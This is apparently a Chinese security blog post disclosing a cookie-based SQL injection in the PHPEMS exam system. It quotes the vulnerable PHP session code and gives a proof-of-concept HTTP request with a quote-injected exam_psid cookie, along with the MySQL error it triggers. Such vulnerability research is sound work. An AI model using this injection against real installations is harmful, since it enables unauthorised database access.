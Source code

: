 title: "phpems SQL注入(cookies)"
date: 2014-01-12 18:22:40
tags:
id: 478
comment: false
categories:
  - exploit
---

<pre class="brush:php">	public function __construct(&amp;$G)
    {
    	$this-&gt;G = $G;
    	if (ini_get('magic_quotes_gpc')) {
			$get    = $this-&gt;stripSlashes($_REQUEST);
			$post   = $this-&gt;stripSlashes($_POST);
			$this-&gt;cookie = $this-&gt;stripSlashes($_COOKIE);
		} else {
			$get    = $_REQUEST;
			$post   = $_POST;
			$this-&gt;cookie = $_COOKIE;
		}

		$this-&gt;file = $_FILES;
		$this-&gt;get = $this-&gt;initData($get);
		$this-&gt;post = $this-&gt;initData($post);
		$this-&gt;url = $this-&gt;parseUrl();

    }

..........
	//获取cookie
	public function getCookie($par,$nohead = 0)
    {
    	if(isset($this-&gt;cookie[CH.$par]))return $this-&gt;cookie[CH.$par];
    	elseif(isset($this-&gt;cookie[$par]) &amp;&amp; $nohead)return $this-&gt;cookie[$par];
    	else return false;
    }</pre>
如果用户开启了GPC，程序员还特意使用stripSlashes()给关掉。
<pre class="brush:php">    public function getSessionId()
    {
    	$sessionid = $this-&gt;ev-&gt;getCookie('psid');
    	if(!$sessionid)
    	{
    		if($this-&gt;ev-&gt;getCookie('PHPSESSID',1))
    		{
    			$this-&gt;ev-&gt;setCookie('psid',$this-&gt;ev-&gt;getCookie('PHPSESSID',1),3600*24);
    			$sessionid = $this-&gt;ev-&gt;getCookie('PHPSESSID',1);
    		}
    		else
    		{
    			$sid = md5($this-&gt;ev-&gt;getClientIp().'/'.$_SERVER['HTTP_X_FORWARDED_FOR'].'/'.$_SERVER['REMOTE_ADDR'].':'.$_SERVER['REMOTE_PORT'].':'.$_SERVER['HTTP_USER_AGENT'].':'.date('Y-m-d'));
    			$this-&gt;ev-&gt;setCookie('psid',$sid,3600*24);
    			$sessionid = $sid;
    		}
    		$data = array('session',array('sessionid'=&gt;$sessionid,'sessionuserid'=&gt;0,'sessionip'=&gt;$this-&gt;ev-&gt;getClientIp()));
    		$sql = $this-&gt;sql-&gt;makeReplace($data);
    		$this-&gt;db-&gt;exec($sql);
    	}
    	$this-&gt;sessionid = $sessionid;
    	return $this-&gt;sessionid;
    }</pre>
获得psid参数并起保存在$sessionid里
<pre class="brush:php">	//修改考试会话内容
	//参数：会话内容数组
	//返回值：true
	public function modifyExamSession($args)
	{
		$sessionid = $this-&gt;session-&gt;getSessionId();
		$data = array('examsession',$args,"examsessionid = '{$sessionid}'");
		$sql = $this-&gt;sql-&gt;makeUpdate($data);
		$this-&gt;db-&gt;exec($sql);
		return true;
	}</pre>
任意找了一个进入数据库的地方。

从上面过程看到，没有做任何过滤就进入数据库了。

&nbsp;
<pre class="brush:cpp">Request:
POST /pechina20131101/index.php?exam-app-basics-openit HTTP/1.1
Host: localhost
Proxy-Connection: keep-alive
Content-Length: 79
Origin: http://localhost
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.1 (KHTML, like Gecko) Chrome/21.0.1180.89 Safari/537.1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
Referer: http://localhost/pechina20131101/index.php?exam-app-basics-detail&amp;basicid=4
Accept-Encoding: gzip,deflate,sdch
Accept-Language: zh-CN,zh;q=0.8
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Cookie: exam_psid=c6f1b7acd452e6d72a3ede0f501a9211'; exam_currentuser=%25B4%2585%258B%2585%25CE%25BE%258D%257C%2586%2585u%25BE%25B8%25BE%25C6%25B4%25C2%25B9%25C8%25BE%25B8%25BD%25BC%25AFu%2586%25C6%2585%2585%2585u%2581%258Bm%258E%25BE%258D%257C%2588%2585u%25BE%25B8%25BE%25C6%25B4%25C2%25B9%25C3%25AC%25C6%25BE%25CA%25BA%25C5%25AFu%2586%25C6%2585%2586%257D%258Dm%258C%2581%25B8%2582%258C%257D%2584%2583%258C%2581%2588%25B0%25B5%2582%2585%25AE%258C%257D%25B4%2580%2587%2584%25B7%25AF%2588%25AC%2586%257E%2583%257C%2584%257Du%2586%25C6%2585%258C%2585u%25BE%25B8%25BE%25C6%25B4%25C2%25B9%25BC%25BBu%2586%25C6%2585%258C%2585u%257C%2585%2582%2581%257B%2581%257B%2581%257Cu%2586%25C6%2585%2584%257F%258Dm%25C6%25B0%25C6%25BE%25BC%25BA%25C1%25B2%25C5%25BA%25C8%25BB%25BC%25AFu%2586%25C6%2585%2584%2585u%2583u%2586%25C6%2585%2584%2581%258Dm%25C6%25B0%25C6%25BE%25BC%25BA%25C1%25B7%25C2%25B2%25BC%25B9%25C7%25B4%25C0%25B0u%2586%25BC%2585%2584%257E%258B%2584%2588%257C%2589%2582%258B%257E%258E%25BE%258D%257C%2588%2585u%25BE%25B8%25BE%25C6%25B4%25C2%25B9%25C8%25BE%25B8%25BD%25C1%25AC%25C0%25B0u%2586%25C6%2585%2589%2585u%257C%2584%257C%2584%257C%2584m%258E%25BE%258D%257C%2589%2585u%25BE%25B8%25BE%25C6%25B4%25C2%25B9%25C7%25B4%25C0%25B0%25BF%25B4%25C0%25B4%25C7m%258E%25B4%258D%257C%2586%2583%258C%2580%2584%2581%258A%2583%2586%2586%25C6%2585%258C%2585u%25BE%25B8%25BE%25C6%25B4%25C2%25B9%25BC%25AFu%2586%25C6%2585%2586%257D%258Dm%25B6%2581%25B9%257C%25B5%2582%25B4%25AE%25B7%257F%2588%257D%25B8%2581%25B7%2582%2585%25AC%2586%25B0%25B7%25B0%2583%25B1%2588%257B%2584%25AC%258C%257D%2584%257Cu%2586%25D0; CNZZDATA5243664=cnzz_eid%3D2105242747-1389515449-%26ntime%3D1389515449%26cnzz_a%3D3%26sin%3Dnone%26ltime%3D1389515448225

Response:
HTTP/1.1 200 OK
Date: Sun, 12 Jan 2014 09:32:14 GMT
Server: Apache/2.4.7 (Win32) OpenSSL/0.9.8y PHP/5.4.22
X-Powered-By: PHP/5.4.22
P3P: CP=CAO PSA OUR
Content-Length: 606
Content-Type: text/html; charset=utf-8

ERRO:SELECT * FROM x2_session AS session WHERE sessionid = 'c6f1b7acd452e6d72a3ede0f501a9211'' LIMIT 0,100:You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''c6f1b7acd452e6d72a3ede0f501a9211'' LIMIT 0,100' at line 1ERRO:UPDATE x2_session AS session SET `sessionlasttime` = '1389519134' WHERE sessionid = 'c6f1b7acd452e6d72a3ede0f501a9211'':You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''c6f1b7acd452e6d72a3ede0f501a9211''' at line 1</pre>
漏洞证明。

&nbsp;

PS:很久没弄PHP的漏洞了，因为也只能找到这些简单的漏洞；又是一次练习同时也为了给明年的毕业设计收集素材。